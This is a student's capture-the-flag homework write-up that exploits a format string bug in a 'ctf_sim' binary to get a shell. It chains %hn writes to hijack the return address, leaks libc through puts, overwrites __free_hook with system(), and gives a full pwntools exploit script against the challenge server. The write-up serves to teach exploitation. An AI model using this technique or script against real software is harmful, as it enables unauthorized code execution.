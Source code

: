 ```yaml
---
title: "HW10A"
math: true
---
```


# Homework 10a Writeup (without `giveup()`)
![bruh](/hw10a/image-1.png)

## A Quick Look 
![Alt text](/hw10a/image-2.png)

Sums up every CTF challenge so far ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatgooglytrash.png)

As a rule of thumb we will run `checksec` on the binary:

![Alt text](/hw10a/image-6.png)

Looks scary ![emoji](https://blob.cat/emoji/custom/blobcats/ablobcatsweatsiphard.gif)

The vulnerability could be easily found in the source code if you're using the `clangd` lauguage server in your editor:

![Alt text](/hw10a/image-4.png)

It reads the "name of the snack" into a buffer [in the heap]{.spoiler} then `printf`s it as the format string itself. It appears to be an easy format string attack challenge. We will try some generic payloads:

![Alt text](/hw10a/image-5.png)

Looks like we got some addresses on the stack to bypass ASLR ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatglowsticks.png). Now we have to figure out how to do our abritrary write, so that we can overwrite the GOT entry of a libc function with the address of `system()`.


## Where did my payload go ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatsob.png)

Let's run it on `gdb` and see what the stack looks like when we enter our payload:

![Alt text](/hw10a/image-7.png)

The text we entered is nowhere to be found on the stack. But we can see a pointer to our payload `AAAA...` on the **heap**.  If we look back at the source code, we can see that the `buffer` string is allocated on the heap using `malloc()`.

But in order to execute an abritrary write using format strings (and the `%n` format specifier), the address to be written is specified at an argument, meaning it must also be on the stack. If we tried use `fmtstr_payload()` from pwntools, it will just write to the location pointed by some pointers on the stack.

How about the `name` buffer at the start of the program? Can we put the target addresses into it? It is indeed stored on the stack, but **before** we can leak our address from the buffer to bypass ASLR. If we manage to modify it *after* we leak the address, then we could do the abritrary write. But how?

Is there a good way to return to the `ctf_simulator` function, without calling `giveup()`? Well, to *control the flow*, we could only overwrite either a GOT entry, or the return address of the function at `rbp+1`. Back to square one ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatangery.png)


## Chaining the overwrites

A trick I learned from [the MIPS ROP challenge](/hkcert#mips-rop-gldanoob) is to make use of the existing values on the stack which are deterministic. In this case it means we can utilize those pointer values to control another value on the stack. For example, the value at `rbp` (`0x7fffffffd650`) refers to the saved `rbp` (`rbp + 0x120`), which points to the base of the previous stack frame. What if we used the format string exploit with the pointer at `rbp`? The value at base of the previous stack frame (which also is a pointer to the stack) get overwritten.

```
[rbp] (8th arg)  -> rbp + 0x120
...
(Stack frame of ctf_simulator())
...
[rbp + 0x120]     -> 0x7fffffffd780
```


Let's try overwriting it with the format specifier `%1c%8$hn` (writing `0x0001` to the address pointed by the 8th argument):

```
[rbp + 0x120] -> 0x7fffffff0001
```

We have another address on the stack, differing from the previous by the lower bytes (first two bytes in memory). What makes it even better is that we can just make it point to `rbp+1`, by just altering those two bytes with `%54872c%10$hn`:

```
[rbp + 0x120] -> 0x7fffffffd658 = rbp + 1
```
(The exact value of `rbp` can be calculated using the leaked stack address from earlier)

Now we have a pointer to the return address (`rbp + 1`) on the stack! Using it as the argument to the format string exploit, we can overwrite the return address with `ctf_simulator` using the same trick:

```
[rbp + 1]     -> ctf_simulator()
...
[rbp + 0x120] -> rbp + 1
```

Now the program will ask us for the team name again once the `get_snack` function exits.

## Full RELRO... or not?

Now that we had our abritary overwrite using the `name` buffer, we can use the leaked address from earlier to calculate the address of the GOT table, 
and leak the address of `puts()` in memory with `%10$s`, thus obtaining the address of `system()`:

![](/hw10a/image-9.png)

However there is a problem: the binary is compiled with full RELRO, meaning the GOT table is read-only. We can't simply overwrite any GOT entry with the address of `system()`. But if we're lucky and the LIBC version on the server is older, there's a chance the LIBC calls a function pointer `__free_hook` (which can be user defined) when freeing chunks on the heap.

We can check the LIBC version using <https://libc.blukat.me/> with our leaked address:

![Alt text](/hw10a/image-8.png)

The LIBC version is older than 2.34, so we can use the `__free_hook` trick and overwrite it with the address of `system()` ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatglowsticks.png). We'll use the `name` buffer again, since the output of `fmtstr_payload()` has to be on the stack.

One last thing is to get `system()` to be called with the argument `/bin/sh`. But since whatever is being freed is also passed to `__free_hook`, which in this case happenes to be `buffer`, we can just put `/bin/sh` as the name of our snack.

## Solution
1. Leak the base address of the binary and the saved RBP
2. Using two format string exploits, overwrite the return address of the `get_snacks()` call with `ctf_simulator`
3. Leak the address of `puts()` by setting `name` to `puts@GOT` and calculate the address of `system()`
4. Return to `ctf_simulator` again, set `__free_hook` to the address of `system()`
5. Enter `/bin/sh` as the name of the snack, wait for `buffer` to be freed and `cat flag.txt`

```py
import sys

from pwn import *  # type: ignore

mode = 'l'
if len(sys.argv) > 1:
    mode = sys.argv[1]

e = ELF('./ctf_sim')
libc = ELF('./libc.so.6')
context.binary = e

if mode == 'r':
    p = connect('chal.firebird.sh', 35048)
else:
    p = process([e.path])


p.sendline(b'AAAAAAAAAAAAAAAAA')


def ret_to_ctf():
    # after leaking rbp and setting e.address

    # rbp $8 -> rbp+0x120 $44 -> rbp+0x130
    # make rbp+0x120 point to return address (rbp+8)
    p.sendlineafter(b'option: ', b'3')
    payload = '%{}c%{}$hn'.format((rbp + 8) & 0xffff, 8)
    p.sendlineafter(b'today? ', payload)

    # edit return address to start of ctf_simulator
    p.sendlineafter(b'option: ', b'3')
    payload = '%{}c%{}$hn'.format(e.sym['ctf_simulator'] + 15 & 0xffff, 44)
    p.sendlineafter(b'today? ', payload)


# Leak RBP of ctf_simulator & Return address
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', b'%8$payo%9$pez')
p.recvuntil(b'0x')
rbp = int(p.recvuntil('ayo', drop=True).strip(), 16) - 0x120
ret = int(p.recvuntil('ez', drop=True).strip(), 16)
print('RBP: ', hex(rbp))
print('Return address: ', hex(ret))
# Set the base address of ELF
e.address = ret - e.sym['ctf_simulator'] - 166


ret_to_ctf()
p.pack(e.got['puts'])
p.sendline()

# Leak puts
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', b'%10$sAAAA')
puts = unpack(p.recvuntil('AAAA', drop=True), 'all')
print('PUTS: ', hex(puts))
libc.address = puts - libc.sym['puts']
hook = libc.sym['__free_hook']
print('HOOK: ', hex(hook))


ret_to_ctf()
# Overwrite __free_hook with system
payload = fmtstr_payload(10, {hook: libc.sym['system']})
p.sendline(payload)

p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', payload)
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', '/bin/sh\x00')
p.interactive()
```

